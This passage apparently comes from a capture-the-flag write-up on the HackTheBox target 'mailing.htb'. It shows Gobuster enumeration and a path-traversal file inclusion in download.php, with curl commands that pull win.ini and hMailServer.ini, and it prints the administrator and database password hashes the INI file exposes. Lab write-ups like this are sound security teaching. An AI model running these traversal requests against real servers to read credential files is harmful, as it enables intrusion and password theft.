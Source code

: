 ![images (34)](images (34).png)

Key features on the main page:

- A **login form** for accessing mailboxes.
- A **download functionality** for email attachments, vulnerable to manipulation.

Directory brute-forcing with Gobuster:

```bash
gobuster dir -u http://mailing.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt -o gobuster.txt
```

**Results:**

- `/download.php` (Status: 200)
- `/index.php` (Status: 200)
- `/login.php` (Status: 200)
- No sensitive files like `/admin` or backups found initially.

The `/download.php` endpoint accepted a `file` parameter for downloading attachments, suggesting potential file inclusion vulnerabilities.

### Local File Inclusion (LFI)

Testing `/download.php?file=../../../windows/win.ini` revealed a classic LFI vulnerability, as the server returned local file contents without proper sanitization.

Example request:

```bash
curl "http://mailing.htb/download.php?file=../../../windows/win.ini"
```

**Results:**

```
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Further traversal to `C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini`:

```bash
curl "http://mailing.htb/download.php?file=../../../../Program Files (x86)/hMailServer/Bin/hMailServer.ini" -o hmailserver.ini
```

The INI file revealed:

```
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
```